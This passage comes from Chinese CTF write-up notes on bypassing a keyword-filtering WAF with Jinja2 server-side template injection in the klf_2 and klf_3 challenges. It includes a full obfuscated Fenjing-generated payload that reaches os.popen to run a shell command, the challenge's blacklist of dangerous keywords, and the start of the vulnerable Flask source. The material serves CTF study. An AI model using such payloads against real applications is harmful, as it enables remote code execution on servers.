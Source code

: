 		- 字符可以用`(lipsum|trim|list|batch(INDEX)|first|last)`这样的payload生成
		- 然后就可以拿到chr函数了，就可以生成任意字符串，实现RCE了
		- 也可以通过生成`{:c}`并通过format生成百分号，然后和`c`拼在一起变成`%c`，就可以通过format生成任意字符了
		- 自动化思路：[[CTFWEB/WP/klf_2的SSTI自动化绕过]]
	- 给焚靖加上了新的规则，它生成的payload长这样：
		- ```
		  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((19,18,)|sum))%}{{(((((((lipsum|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((35,35,35,3,)|sum),111,98,97,((35,35,35,3,)|sum),115,95,95))))|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((39,39,23,)|sum),116,((39,39,27,)|sum),116,((39,39,23,)|sum),((39,39,31,)|sum),95,95))))(((((x,x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,98,117,((39,39,27,)|sum),((35,35,35,3,)|sum),116,((39,39,27,)|sum),((39,39,32,)|sum),115,95,95)))|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((39,39,23,)|sum),116,((39,39,27,)|sum),116,((39,39,23,)|sum),((39,39,31,)|sum),95,95))))(((((x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,27,)|sum),((39,39,31,)|sum),112,111,114,116,95,95)))((dict(o=x,s=x)|join))|attr(((((x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(112,111,112,((39,39,23,)|sum),((39,39,32,)|sum)))))(((((x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(((35,35,35,3,)|sum),115,32,((39,8,)|sum)))))|attr((dict(rea=x,d=x)|join)))())}}
		  ```
	- 做完发现blacklist长这样：
		- ```python
		  bl = ['_', '\\', '\'', '"', 'request', "+", 'class', 'init', 'arg', 'config', 'app', 'self', 'cd', 'chr',
		        'request', 'url', 'builtins', 'globals', 'base', 'pop', 'import', 'popen', 'getitem', 'subclasses', '/',
		        'flashed', 'os', 'open', 'read', 'count', '*', '38', '124', '47', '59', '99', '100', 'cat', '~',
		        ':', 'not', '0', '-', 'ord', '37', '94', '96', '[',']','index','length']#'43', '45',
		  ```
		- 里面有一堆两位数，加减乘除，url和冒号，还有`length`和`count`
		- 甚至后面还有注释掉的两位数，绝对是被针对了。。。
	- 焚靖v0.5.10会在比赛后发布，应该是可以秒掉这一题
- # klf_3
  collapsed:: true
	- 新版焚靖直接RCE的
	- 分析了一下WAF, 自动化思路：[[CTFWEB/WP/klf_3的SSTI自动化绕过]]
	  collapsed:: true
	- 源码：
	  collapsed:: true
		- ```python
		  from flask import Flask, request, render_template, render_template_string,send_from_directory
		  import re
		  import os
		  
		  app = Flask(__name__)
		  
		  @app.route('/', methods=['GET', 'POST'])
		  def index():
		      return render_template('index.html')
		  
		  @app.route('/secr3ttt', methods=['GET', 'POST'])
		  def secr3t():
		  